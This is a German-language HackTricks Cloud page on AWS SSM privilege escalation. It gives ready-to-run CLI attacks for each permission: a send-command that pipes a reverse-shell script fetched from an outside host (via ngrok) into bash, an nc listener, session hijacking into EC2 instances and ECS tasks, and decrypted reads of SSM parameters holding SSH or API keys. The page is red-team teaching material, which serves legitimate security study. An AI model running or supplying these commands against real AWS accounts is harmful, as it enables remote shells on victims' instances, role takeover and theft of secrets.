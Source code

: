 # AWS - SSM Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## SSM

Für weitere Informationen zu SSM siehe:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ein Angreifer mit der Berechtigung **`ssm:SendCommand`** kann **Befehle in Instanzen** ausführen, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Falls Sie diese Technik verwenden, um Privilegien innerhalb einer bereits kompromittierten EC2-Instanz zu eskalieren, könnten Sie einfach die rev shell lokal erfassen mit:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

### `ssm:StartSession`

Ein Angreifer mit der Berechtigung **`ssm:StartSession`** kann **eine SSH-ähnliche Sitzung in Instanzen** starten, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Um eine Sitzung zu starten, benötigen Sie das **SessionManagerPlugin** installiert: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

#### Privilegieneskalation zu ECS

Wenn **ECS-Aufgaben** mit **`ExecuteCommand` aktiviert** ausgeführt werden, können Benutzer mit ausreichenden Berechtigungen `ecs execute-command` verwenden, um **einen Befehl** innerhalb des Containers auszuführen.\
Laut [**der Dokumentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) geschieht dies durch die Erstellung eines sicheren Kanals zwischen dem Gerät, das Sie verwenden, um den „_exec_“-Befehl zu initiieren, und dem Zielcontainer mit SSM Session Manager. (SSM Session Manager Plugin ist notwendig, damit dies funktioniert)\
Daher werden Benutzer mit `ssm:StartSession` in der Lage sein, **eine Shell innerhalb von ECS-Aufgaben** mit dieser Option aktiviert zu erhalten, indem sie einfach Folgendes ausführen:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den `ECS` IAM-Rollen, die an laufende Aufgaben mit aktiviertem `ExecuteCommand` angehängt sind.

### `ssm:ResumeSession`

Ein Angreifer mit der Berechtigung **`ssm:ResumeSession`** kann eine **SSH-ähnliche Sitzung in Instanzen** neu **starten**, die den Amazon SSM-Agenten mit einem **getrennten** SSM-Sitzungsstatus ausführen und die **IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten und getrennten Sitzungen angehängt sind.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, die **SSM-Parameter** aufzulisten und **diese im Klartext zu lesen**. In diesen Parametern findet man häufig **sensible Informationen** wie SSH-Schlüssel oder API-Schlüssel.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenzielle Auswirkungen:** Sensible Informationen innerhalb der Parameter finden.

### `ssm:ListCommands`

Ein Angreifer mit dieser Berechtigung kann alle **Befehle** auflisten, die gesendet wurden, und hoffentlich **sensible Informationen** darin finden.
```
aws ssm list-commands
```
**Potenzielle Auswirkungen:** Finde sensible Informationen in den Befehlszeilen.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ein Angreifer mit diesen Berechtigungen kann alle **Befehle** auflisten, die gesendet wurden, und **die Ausgabe** lesen, in der Hoffnung, **sensible Informationen** darin zu finden.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen im Output der Befehlszeilen.

### Codebuild

Sie können SSM auch verwenden, um in ein Codebuild-Projekt einzudringen, das gerade erstellt wird:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
